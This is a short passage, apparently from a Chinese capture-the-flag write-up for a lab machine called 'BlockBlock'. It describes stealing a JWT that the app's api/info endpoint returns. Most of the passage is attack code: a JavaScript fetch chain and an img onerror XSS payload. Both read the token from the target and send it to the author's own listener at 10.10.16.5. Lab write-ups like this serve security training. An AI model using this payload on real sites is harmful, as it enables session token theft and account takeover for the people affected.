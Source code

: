 ![image-20241126094801731.png](assets/0635-BlockBlock/image-20241126094801731.png)

同时在 Burp 中发现会不间断请求 `api/info` 来返回 jwt_token，因此使用 js 获取此请求响应。将响应内容作为参数请求到 HTTP 服务器中，达成 XSS + CSRF。

```JavaScript
fetch('http://10.10.11.43/api/info')
	.then(resp => { return resp.text()})
	.then(jwt => {fetch(`http://10.10.16.5/xss?c=${jwt}`)})
```

整理到 img 标签

```JavaScript
<img src=x onerror="fetch('http://10.10.11.43/api/info').then(resp=>resp.text()).then(jwt=>fetch(`http://10.10.16.5/x?c=${jwt}`))">
```

![image-20241126100209001.png](assets/0635-BlockBlock/image-20241126100209001.png)
